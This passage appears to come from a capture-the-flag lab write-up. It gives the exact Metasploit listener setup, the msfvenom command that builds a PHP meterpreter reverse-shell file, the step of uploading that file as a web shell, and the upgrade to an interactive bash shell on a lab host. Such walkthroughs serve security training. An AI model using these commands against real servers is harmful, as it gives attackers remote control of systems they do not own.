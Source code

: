 Metasploit listener:
<br/><br/>
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 172.16.64.12
lhost => 172.16.64.12
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run
```
<br/><br/>
Remember tha we need to run metasploit as root if we want to listen on ports in the range 1-1024.
Ok, let's create the meterpreter php file
<br/><br/>
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php
```
<br/><br/>
We can upload shell.php the same way as php.php
<br/><br/>
Instantly a meterpreter terminal opens, here we enter:
<br/><br/>
```bash
	$ shell
	$ bash -i
```
<br/><br/>
And that's it , from here we simply navigate the directories and find the missing flag!  
